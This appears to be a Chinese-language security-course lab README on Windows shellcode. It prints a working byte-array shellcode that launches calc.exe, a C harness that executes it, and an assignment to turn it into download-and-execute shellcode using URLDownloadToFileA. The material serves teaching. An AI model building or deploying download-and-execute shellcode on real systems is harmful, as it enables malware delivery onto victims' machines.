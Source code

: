 # 实验要求

* 掌握shellcode
* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  * 原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数

# 实验步骤

## PART I

- 如下是一段`shellcode`代码，这个shellcode的功能是运行一个计算器程序。

  ```c
  #include <windows.h>
  #include <stdio.h>
  
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv)         //把这个code运行起来。
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

- 这一段main函数代码用到了一个较为高级的C语言语法，函数指针。定义了一个函数指针变量，func。这个函数指针的变量类型是 int(*)(),表示返回值是int，参数列表为空的一个函数。在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。

- 在VS中运行，此时会遇到错误

<img src="pic\1.png" style="zoom:80%;" />
